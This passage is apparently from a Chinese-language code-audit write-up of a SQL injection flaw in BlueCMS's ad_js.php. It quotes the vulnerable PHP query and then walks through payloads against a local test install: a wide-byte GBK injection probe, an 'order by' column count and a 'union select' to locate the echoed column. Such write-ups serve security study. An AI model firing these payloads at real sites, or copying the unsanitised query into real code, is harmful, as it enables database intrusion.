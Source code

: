 ```php
$ad = $db->getone("SELECT * FROM ".table('ad')." WHERE ad_id =".$ad_id);
```

- 可见$ad_id存在数字型注入，尝试寻找这个变量的输入点与输出点。

```php
# 输入点
$ad_id = !empty($_GET['ad_id']) ? trim($_GET['ad_id']) : '';
...
# 输出点
echo "<!--\r\ndocument.write(\"".$ad_content."\");\r\n-->\r\n";
```

**漏洞利用**

- 这里有个小彩蛋，网站是用gbk编码，可用宽字节注入
`http://127.0.0.1/ad_js.php?ad_id=1%df%27`

首先尝试测试有多少字段：payload如下：
```bash
http://127.0.0.1/ad_js.php?ad_id=1 order by 8
```

这里会报错，说明字段数为7，尝试寻找输出点(也就是指exp_content字段在哪一列)

```bash
http://127.0.0.1/ad_js.php?ad_id=1 union select 1,2,3,4,5,6,7
```

![image](./img/bluecms6.png)
